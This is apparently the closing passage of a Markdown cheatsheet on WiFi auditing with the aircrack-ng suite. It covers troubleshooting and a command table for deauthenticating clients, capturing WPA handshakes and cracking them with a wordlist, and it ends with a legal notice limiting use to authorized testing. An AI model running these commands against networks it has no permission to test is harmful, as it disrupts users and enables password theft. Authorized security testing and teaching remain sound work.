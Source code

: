 **Handshake not captured:**
```bash
# Verify target is active
sudo airodump-ng -c 6 --bssid AA:BB:CC:DD:EE:FF wlan0mon

# Check for clients
# Look for associated clients in airodump output

# Try different deauth methods
sudo aireplay-ng -0 10 -a AA:BB:CC:DD:EE:FF wlan0mon
```

---

## 📋 Quick Reference

### **Essential Commands**
| Task | Command |
|------|---------|
| **Start Monitor** | `sudo airmon-ng start wlan0` |
| **Scan APs** | `sudo airodump-ng wlan0mon` |
| **Target AP** | `sudo airodump-ng -c 6 --bssid BSSID wlan0mon` |
| **Capture** | `sudo airodump-ng -c 6 --bssid BSSID -w capture wlan0mon` |
| **Deauth** | `sudo aireplay-ng -0 5 -a BSSID wlan0mon` |
| **Crack** | `sudo aircrack-ng -w wordlist.txt capture-01.cap` |

### **Key Shortcuts**
- ++ctrl+c++ - Exit
- ++ctrl+s++ - Sort options
- ++ctrl+m++ - Mark AP
- ++ctrl+t++ - Set target
- ++ctrl+f++ - Filter by MAC

---

## ⚠️ Legal Notice

!!! warning "Important Legal Notice"
    **This cheatsheet is for educational and authorized testing purposes only.**
    
    - Only test networks you own or have explicit permission to test
    - Unauthorized access to networks is illegal
    - Use responsibly and ethically
    - Follow local laws and regulations

---

## 🔗 Additional Resources
